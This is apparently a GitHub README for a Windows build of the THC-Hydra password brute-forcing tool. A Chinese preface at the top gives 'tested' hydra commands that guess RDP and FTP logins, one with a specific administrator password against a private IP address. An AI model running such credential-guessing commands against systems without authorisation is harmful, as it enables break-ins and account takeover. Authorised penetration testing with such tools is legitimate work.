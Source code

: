 破解rdp，ftp等服务 

亲测试成功
=================
可参照：https://www.cnblogs.com/HC2018/articles/10125347.html

亲测命令
=================
* 在当前路径执行即可
hydra -l administrator -p Wutos2017 10.11.2.34 rdp

* 也可以通过查询文件执行
hydra -L admin.txt -P pass.txt 10.11.2.34 rdp

* 也可以执行
hydra -l admin -p password ftp://localhost/

hydra -L default_logins.txt -p test ftp://localhost/

hydra -l admin -P common_passwords.txt ftp://localhost/

hydra -L logins.txt -P passwords.txt ftp://localhost/

THC-HYDRA-windows
=================

Description
-----------
The THC-HYDRA tool compiled for Windows

Features
--------
* Latest `9.1` version (2020-07-29)
* Compiled for `x64` only from version 9.1, [older releases](#older-versions) were compiled for `x86` so they should work on `x86` and `x64` platforms
* Compiled with SSH, MySQL, PostgreSQL and RDP optional modules
* Embedded Cygwin DLLs 

Usage
-----
1. Download the [whole archive](https://github.com/maaaaz/thc-hydra-windows/archive/master.zip)
2. Extract it and run `hydra.exe`
3. Profit

Prerequisites
-------------
* [Microsoft Visual C++ 2008 Redistributable Package](https://www.microsoft.com/en-us/download/details.aspx?id=29)

Older versions
--------------
* Browse the [release section](https://github.com/maaaaz/thc-hydra-windows/releases) to find some old versions

Disclaimer & licence 
---------------------
The very same as mentioned on https://github.com/vanhauser-thc/thc-hydra.  
I don't own anything on THC brand or hydra, neither am I affiliated or working on the project.  

Last but not least, antivirus softwares might report some binaries as hacktools or even malwares: this is a known and common issue. If you don't trust this compilation, just don't download it.

Credits
-------
* The Hackers Choice "THC" https://github.com/vanhauser-thc/thc-hydra
